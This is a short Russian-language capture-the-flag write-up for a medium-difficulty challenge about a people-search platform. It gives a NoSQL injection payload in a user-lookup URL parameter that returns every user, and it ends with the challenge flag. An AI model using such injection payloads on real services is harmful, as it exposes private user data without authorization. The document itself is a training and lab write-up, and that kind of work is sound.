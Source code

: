 # ПоискЧеловека
### Сложность
Средне.
### Описание
Скинули платформу где можно отыскать любого человека в сети, но я не помню как его зовут...
### Решение
noqsql иньекция в поисковом запросе, вводим ее и получаем список всех пользователей
/user/lookup?username='||'a'=='a

### Флаг
CTF{no_sql_or_sql}
